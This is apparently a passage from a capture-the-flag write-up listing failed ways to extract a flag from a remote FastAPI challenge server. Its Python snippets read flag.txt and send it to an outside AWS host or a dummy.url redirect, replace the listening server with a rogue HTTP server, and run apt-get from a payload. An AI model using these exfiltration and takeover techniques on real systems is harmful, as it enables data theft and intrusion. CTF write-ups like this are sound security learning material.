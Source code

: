 ## What did not work

*   **Sending the flag to remote server**

    I tried starting a HTTP server on an AWS instance and sending a payload:

    ```python
    import requests
    flag = open("flag.txt", "r").readline()
    requests.get(AMAZON_URL+"/flag="+flag)
    ```

    That worked just fine in my local Docker instance - but not remotely.

*   **Replacing FastAPI with dummy HTTP server**

    Assuming that at least incoming port 8080 is unrestricted (and proxied from
    the SSL tunnel), I thought that following might work:

    ```python
    import http.server
    fd = 11  # Poking at local Docker, that's FastAPI listening socket
    close(fd)
    http.server.test(HandlerClass=http.server.SimpleHTTPRequestHandler, port=8080)
    ```

    That worked just fine in my local Docker instance - but not remotely. I tried
    the same, but actually iterating over sockets (which involved running
    `system("apt-get install -y python3-psutil")` as part of the payload &#128512;) and
    finding the right one. Same result.

*   **exec() a dummy HTTP server**

    Next idea was to replace complete FastAPI server (which would presumably close
    the listening FD and allow reopening the same serving port):

    ```python
    import os
    os.exec("/usr/bin/python3", ["-m", "http.server", "8080"])
    ```

    That did not work.

*   **Actually returning a retrievable string object**<br>

    If we could add `saveResult()` as a callback and `return` a string from the
    Python payload, there is a chance we could then just retrieve it from the API.
    Unfortunately `saveResult` is in the dynamically loaded part and we can not
    (easily) get a pointer to it.

*   **Replacing `api.py` with own code code**

    ... and triggering FastAPI restart. That did not work, I couldn't get the "restart" part &#128578;

*   **Adding a new endpoint that would serve the flag**

    I was thinking about adding something like this in the payload:

    ```python
    @app.get("/get_flag")
    def get_flag():
        flag = open("flag.txt", "r").readline()
        return RedirectResponse("http://dummy.url/flag="+flag)
    ```
